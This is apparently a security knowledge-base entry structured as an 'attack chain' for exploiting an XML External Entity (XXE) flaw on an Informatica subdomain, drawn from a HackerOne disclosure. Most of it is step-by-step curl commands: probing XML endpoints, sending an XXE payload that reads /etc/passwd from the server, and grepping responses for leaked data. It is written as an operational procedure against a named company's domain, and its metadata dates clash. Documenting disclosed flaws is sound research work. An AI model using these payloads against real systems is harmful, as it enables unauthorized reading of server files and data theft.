

---
tags:
  - xxe
  - xml
  - vulnerability-exploitation
  - data-exposure
type: attack_chain
tools:
  - '[[tools/Curl]]'
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
commands:
  - '[[commands/curl-scan-for-xxe]]'
  - '[[commands/curl-send-xxe-payload]]'
  - '[[commands/analyze-response-for-exfiltration]]'
platforms:
  - Web
complexity: medium
procedures:
  - '[[procedures/Identify-Vulnerable-XML-Endpoint]]'
  - '[[procedures/Craft-and-Send-XXE-Payload]]'
  - '[[procedures/Verify-Data-Exfiltration]]'
step_count: 3
techniques:
  - '[[Exploit Public-Facing Application]]'
description: >-
  Exploitation of an XML External Entity (XXE) vulnerability in an Informatica
  sub-domain, potentially leading to unauthorized data access or exposure
skill_level: intermediate
impact_level: high
id: aa770fac-f8b5-465a-9fdc-1e696f51c842
created_at: '2025-12-13T09:00:27.385Z'
updated_at: '2025-12-13T09:00:27.385Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
---
# XXE Exploitation in Informatica Subdomain

## Overview

This attack chain outlines the process of identifying and exploiting an XML External Entity (XXE) vulnerability in an Informatica sub-domain, as reported in a HackerOne disclosure. The vulnerability stems from improper handling of XML external entities, allowing potential unauthorized access or data exposure. The chain includes reconnaissance to find vulnerable endpoints, crafting and sending malicious XML payloads, and verifying the impact through data exfiltration. This demonstrates a high-severity risk that was triaged and resolved by Informatica.

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools
- [[tools/Curl]]

### Target Environment
- Web application accepting XML input
- Accessible sub-domain (e.g., Informatica-related)
- Network access to the target

### Initial Access Requirements
- No credentials required for public-facing endpoints
- Ability to send HTTP requests to the target

## Detailed Attack Procedures

### Step 1: Identify Vulnerable XML Endpoint
procedure: [[procedures/Identify-Vulnerable-XML-Endpoint]]

**Objective**: Scan the target sub-domain to locate endpoints that process XML input and may be susceptible to XXE.

**Instructions**: Use [[commands/curl-scan-for-xxe]] to probe potential XML endpoints:

```bash
curl -X POST -H "Content-Type: application/xml" --data "<xml>test</xml>" https://subdomain.informatica.com/endpoint
```

Analyze the response for XML parsing behavior or errors indicating entity processing.

**Expected Output**: HTTP response confirming XML acceptance or error messages related to entity resolution.

**Success Indicators**:
- Endpoint accepts XML content type
- No immediate rejection of external entities

### Step 2: Craft and Send XXE Payload
procedure: [[procedures/Craft-and-Send-XXE-Payload]]

**Objective**: Construct a malicious XML payload to exploit the XXE vulnerability and attempt data exfiltration.

**Instructions**: Prepare and send the payload using [[commands/curl-send-xxe-payload]]:

```bash
curl -X POST -H "Content-Type: application/xml" --data "<?xml version=\"1.0\"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM \"file:///etc/passwd\" >]><foo>&xxe;</foo>" https://subdomain.informatica.com/endpoint
```

This payload attempts to read local files via entity expansion.

**Expected Output**: Response containing exfiltrated data, such as file contents.

**Success Indicators**:
- Server processes the entity and returns sensitive data
- No error indicating entity restriction

### Step 3: Verify Data Exfiltration
procedure: [[procedures/Verify-Data-Exfiltration]]

**Objective**: Confirm the success of the exploitation by analyzing the response for leaked information.

**Instructions**: Examine the output using [[commands/analyze-response-for-exfiltration]]:

```bash
curl -X POST -H "Content-Type: application/xml" --data "[xxe payload]" https://subdomain.informatica.com/endpoint | grep "sensitive"
```

Look for indicators of successful data exposure.

**Expected Output**: Extracted sensitive data in the response body.

**Success Indicators**:
- Presence of internal file contents or system information
- Confirmation of high-severity impact

## Attack Chain Summary

### Key Achievements
1. Identification of XXE-vulnerable endpoint
2. Successful exploitation leading to potential data exposure
3. Validation of vulnerability impact for reporting and resolution

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques
- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics
- [[Initial Access]]
- [[Execution]]

*Last updated: 2023-10-01*
